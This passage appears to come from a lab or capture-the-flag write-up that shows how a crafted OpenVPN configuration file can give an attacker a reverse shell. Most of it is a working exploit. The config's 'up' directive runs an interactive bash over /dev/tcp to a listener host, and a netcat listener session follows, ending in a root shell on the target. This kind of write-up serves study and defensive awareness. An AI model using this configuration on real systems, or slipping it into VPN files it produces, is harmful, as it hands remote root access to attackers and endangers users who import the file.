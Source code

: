 <figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

By setting up a listener on the victim, and then exploiting the VPN configuration, we are able to catch a reverse shell. [https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)

VPN configuration:

```
remote 192.168.122.1
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
nobind
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/4242 0<&1 2>&1&'"
```

Reverse shell:

```
dave@ubuntu:~/Desktop$ nc -nvlp 4242
Listening on [0.0.0.0] (family 0, port 4242)
Connection from [192.168.122.4] port 4242 [tcp/*] accepted (family 2, sport 45186)
bash: cannot set terminal process group (1106): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html#
```
